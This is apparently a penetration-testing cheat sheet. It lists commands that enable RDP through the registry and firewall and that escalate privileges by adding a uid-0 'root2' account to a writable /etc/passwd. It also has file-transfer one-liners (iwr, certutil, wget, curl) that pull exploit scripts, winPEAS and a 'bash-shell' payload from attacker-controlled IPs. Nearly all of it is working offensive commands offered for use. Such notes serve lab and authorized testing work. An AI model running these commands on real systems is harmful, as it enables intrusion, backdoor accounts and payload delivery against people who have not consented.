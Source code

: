 ### Unlock RDP on Windows

```jsx
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

```jsx
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

### Writable /etc/passwd → Root

We can write additional “root2” user, and get priv esc or access via ssh!

```jsx
openssl passwd 123
```

```jsx
root2:{HASH}:0:0:root:/root:/bin/bash
```

# File Transfers

## Download → From kali

```jsx
iwr -uri http://192.168.45.205/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://10.10.170.141:8080/winPEASx64.exe -UseBasicParsing -OutFile C:\Users\celia.almeda\Documents\winPEASx64.exe
```

```jsx
certutil -urlcache -split -f http://192.168.45.213/exploit.ps1 C:\Users\tony\exploit.ps1
```

```jsx
copy \\192.168.45.213\Share\exploit.ps1 .
```

```jsx
wget 192.168.45.194/payload/bash-shell -O /tmp/shell
```

```jsx
curl http://192.168.45.213/exploit.ps1 -o exploit.ps1
```

## Upload → To kali

### Upload via Apache2

```jsx
sudo systemctl restart apache2
```
